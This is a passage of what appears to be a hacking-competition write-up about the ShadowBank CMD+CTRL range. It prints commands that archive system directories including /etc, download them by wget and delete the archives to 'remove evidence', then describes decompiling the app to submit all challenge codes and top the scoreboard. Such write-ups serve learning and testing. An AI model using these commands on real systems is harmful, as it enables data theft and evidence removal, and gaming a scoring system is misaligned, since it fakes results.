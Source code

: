 The next step was to exfiltrate the data relevant to the web application. Various parts of the application were spread across the file system. While we initially picked just a few things to get us started working on application code like the _ShadowBank.war_ itself, one could just as easily have downloaded pretty much the entire system:

```
# archive the contents of /var, /etc, /opt and /usr to the web server root
./run-cmd 'tar czf /tmp/var.tgz /var'
./run-cmd 'mv /tmp/var.tgz /var/lib/tomcat7/webapps/ShadowBank/'
./run-cmd 'tar czf /var/lib/tomcat7/webapps/ShadowBank/etc.tgz /etc'
./run-cmd 'tar czf /var/lib/tomcat7/webapps/ShadowBank/opt.tgz /opt'
./run-cmd 'tar czf /var/lib/tomcat7/webapps/ShadowBank/usr.tgz /usr'

# download the archives
wget http://xxxx.compute.amazonaws.com/ShadowBank/etc.tgz
wget http://xxxx.compute.amazonaws.com/ShadowBank/opt.tgz
wget http://xxxx.compute.amazonaws.com/ShadowBank/usr.tgz
wget http://xxxx.compute.amazonaws.com/ShadowBank/var.tgz

# delete the archives (a.k.a. remove evidence)
./run-cmd 'rm /var/lib/tomcat7/webapps/ShadowBank/*.tgz'
```

## Reverse engineering and cheating

Once we had the _ShadowBank.war_ file, we used [JD-GUI](http://jd.benow.ca/) to decompile it and reverse engineer the application. The decompiled code was pretty easy to read and understand. We quickly learned that the app was registering completed challenges in the following manner:

![screenshot](/assets/2017-04-20-shadow-bank-pwn-hackathon/08-addcompletedchallenge-1.jpg)

![screenshot](/assets/2017-04-20-shadow-bank-pwn-hackathon/09-addcompletedchallenge-2.jpg)

The analysis of _HackathonClient_ class showed that to record a completed challenge, it was sending the challenge ID along with the participant’s unique key to the CMD+CTRL main server.

Now we knew what to do in order to take ourselves to the top of the scoreboard!

We combed through the decompiled code to extract the challenge codes and wrote a small Java program to call _AddCompletedChallenge()_ on all the codes:

![screenshot](/assets/2017-04-20-shadow-bank-pwn-hackathon/11-poster.jpg)
